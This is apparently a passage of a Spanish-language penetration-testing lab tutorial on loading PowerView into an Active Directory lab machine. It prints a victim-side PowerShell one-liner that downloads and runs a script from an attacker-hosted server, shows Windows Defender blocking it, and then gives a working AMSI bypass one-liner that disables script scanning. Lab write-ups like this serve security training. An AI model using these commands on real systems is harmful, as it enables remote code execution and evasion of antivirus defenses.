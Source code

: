 Pero el que nos interesa esta en `Recon/Powervire.ps1` como vimos anteriormente en temas anteriores en `Active Directory`.

Vamos a encender nuestra maquina `DC01` y ahora vamos a irnos a la maquina `WS02` abriremos un `PowerShell` y ejecutaremos el siguiente comando para que coja el `.ps1` y lo ejecute seguidamente.

> Maquina atacante

```shell
python3 -m http.server 80
```

> Maquina victima

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://192.168.5.205/PowerView.ps1")
```

Info:

```
IEX : En línea: 1 Carácter: 1
+ #requires -version 2
+ ~~~~~~~~~~~~~~~~~~~~
Este script contiene elementos malintencionados y ha sido bloqueado por el software antivirus.
En línea: 1 Carácter: 1
+ IEX (New-Object Net.WebClient).DownloadString("http://192.168.5.205/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

Vemos que nos pone que puede ser un `malware` por lo que nos lo esta bloqueando nuestro antivirus, ya que por lo menos el antivirus de `Microsoft` tiene un modulo llamado `amsi` el cual parchea esas firmas maliciosas y bloquea la ejecuccion o el binario que contiene dentro de ese modulo.

Para poder `Bypassear` este tipo de firmas y que el antivirus no lo detecte tendremos que estar muy al dia para poder ver las nuevas vulnerabilidades que puede salir para poder `bypassear` esto, ya que cuando salgan dichas vulnerabilidades `Microsoft` u otras empresas pondran el parche de las mismas, por lo que tendremos un tiempo reducido para aprovecharlas, pero hay una pagina con una tecnica que presento un investigador llamado `Matt Graeber` que es la siguiente:

URL = [Pagina de Matt Graeber amsi Bypass](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)

El investigador se dio cuenta de que si en el codigo a ejecutar en `PowerShell` contenia la palabra `amsiInitFailed` en `true` no cargaba el analizador de firmas de `Windows Defender` y no lo escaneaba, por lo que `bypassearia` esas confirmaciones de firmas del modulo de `amsi`.

Por lo que se podria ejecutar cualquier script sin que fuera detectado por el `Windows Defender`.

Es este codigo de aqui:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
